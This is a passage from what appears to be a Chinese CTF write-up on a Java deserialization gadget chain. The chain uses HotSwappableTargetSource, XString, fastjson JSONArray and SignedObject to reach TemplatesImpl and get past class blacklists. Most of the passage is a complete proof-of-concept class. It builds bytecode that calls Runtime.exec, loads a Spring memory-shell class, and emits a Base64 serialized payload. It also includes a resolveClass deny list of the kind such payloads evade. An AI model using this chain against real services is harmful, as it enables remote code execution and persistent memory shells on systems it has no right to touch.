    }
}

```

### 2、利用HotSwappableTargetSource新链

参考文章

<https://changeyourway.github.io/2024/06/07/Java%20%E5%AE%89%E5%85%A8/%E6%BC%8F%E6%B4%9E%E7%AF%87-Rome%E9%93%BE%E4%B9%8BHotSwappableTargetSource%E9%93%BE/#HotSwappableTargetSource-%E4%BB%8B%E7%BB%8D>

```
* 绕过第一次的BadAttributeValueExpException黑名单检查
    Hashmap#readobject --> 
    HotSwappableTargetSource#equals ->
    XString#equals -> toString
    JSONArray#toString
    SignedObject#getObject
* 二次反序列化绕过TemplatesImpl黑名单检查
    * 引用绕过JSON自带resolveClass的黑名单检查
        BadAttributeValueExpException#readObject
        JSONArray#toString
        TemplatesImpl#getOutputProperties
            TemplatesImpl#newTransformer
            TemplatesImpl#getTransletInstance
            TemplatesImpl#defineTransletClasses
            TemplatesImpl#defineClass
```

```
/**
 * @className Poc2
 * @Author shushu
 * @Data 2025/2/9
 **/
package org.shu.vnctf;


import com.alibaba.fastjson.JSONArray;
import com.alibaba.fastjson.JSONObject;
import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xpath.internal.objects.XString;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import javassist.CtMethod;
import org.shu.SpringMemShell;
import org.springframework.aop.framework.AdvisedSupport;
import org.springframework.aop.target.HotSwappableTargetSource;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.*;
import java.security.*;
import java.util.*;

import static org.shu.Poc.getFieldValue;

public class Poc2 {
    public static byte[] genPayload(String cmd) throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        clazz.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);
        String sh ="Runtime.getRuntime().exec("" + cmd + "");";
        System.out.println(sh);
        constructor.setBody(sh);
        clazz.addConstructor(constructor);
        clazz.getClassFile().setMajorVersion(49);
        return clazz.toBytecode();
    }
    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception{
        //TemplatesImpl#getOutputProperties
        byte[] bytes = Repository.lookupClass(SpringMemShell.class).getBytes();
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setValue(templates, "_bytecodes", new byte[][]{bytes});
        setValue(templates, "_name", "1");
        setValue(templates, "_tfactory", null);
        //JSONArray#toString
        JSONArray jsonArray2 = new JSONArray();
        jsonArray2.add(templates);
        //BadAttributeValueExpException#readObject
        BadAttributeValueExpException bd2 = new BadAttributeValueExpException(null);
        setValue(bd2,"val",jsonArray2);
        //二次反序列化
        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(templates, kp.getPrivate(), Signature.getInstance("DSA"));

        JSONArray jsonArray1 = new JSONArray();
        jsonArray1.add(signedObject);

        HotSwappableTargetSource h1 = new HotSwappableTargetSource(jsonArray1);
        // this.target 需要是一个 XString 对象
        // 为防止 put 时提前命令执行，这里先不设置，随便 new 一个 HashMap 做参数
        HotSwappableTargetSource h2 = new HotSwappableTargetSource(new HashMap<>());

        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put(h1, "test1");
        hashMap.put(h2, "test2");

        // 反射设置 this.target 为 XString 对象
        setValue(h2, "target", new XString("test"));

//        Map<String, Object> map = new HashMap<>();
//        map.put("yy", arrays);

        byte[] serialize = serialize(hashMap);

        String payload = Base64.getEncoder().encodeToString(serialize);
        System.out.println(payload);
        deserialize(payload);

    }
    public static HashMap getXString(Object obj) throws Exception{

        XString xstring=new XString("");
        HashMap hashMap1 = new HashMap();
        HashMap hashMap2 = new HashMap();

        hashMap1.put("yy",xstring);
        hashMap1.put("zZ",obj);

        hashMap2.put("zZ",xstring);
        hashMap2.put("yy",obj);

        HashMap hashMap = new HashMap();
        hashMap.put(hashMap1, 1);
        hashMap.put(hashMap2, 2);

        return hashMap;
    }
    public static Object makeTemplatesImplAopProxy(Templates templates) throws Exception {
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(templates);
        Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);
        Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{Templates.class}, handler);
        return proxy;
    }
    public static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        return baos.toByteArray();
    }
    static Object deserialize(String data) throws Exception {
        return new ObjectInputStream(new ByteArrayInputStream(Base64.getDecoder().decode(data))) { // from class: com.example.demo.DemoController.1
            boolean check = false;

            @Override // java.io.ObjectInputStream
            protected Class resolveClass(ObjectStreamClass desc) throws IOException, ClassNotFoundException {
                Class targetc = super.resolveClass(desc);
                String className = desc.getName();
                String[] denyClasses = { "com.sun.org.apache.xalan.internal.xsltc.trax", "javax.management", "com.fasterxml.jackson" };
                int var5 = denyClasses.length;
                for (String denyClass : denyClasses) {
                    if (className.startsWith(denyClass))
                        throw new InvalidClassException("Unauthorized deserialization attempt", className);
                }
                this.check = true;
                return targetc;
            }
        }.readObject();
    }
}

```

## 总结

java的链子其实还是跟php的链子挺像的，但是调用比较难找，而且比较多。

## 参考文献

<https://xz.aliyun.com/news/12052>

<https://xz.aliyun.com/news/15977>

<https://changeyourway.github.io/2024/06/07/Java%20%E5%AE%89%E5%85%A8/%E6%BC%8F%E6%B4%9E%E7%AF%87-Rome%E9%93%BE%E4%B9%8BHotSwappableTargetSource%E9%93%BE/#HotSwappableTargetSource-%E4%BB%8B%E7%BB%8D>
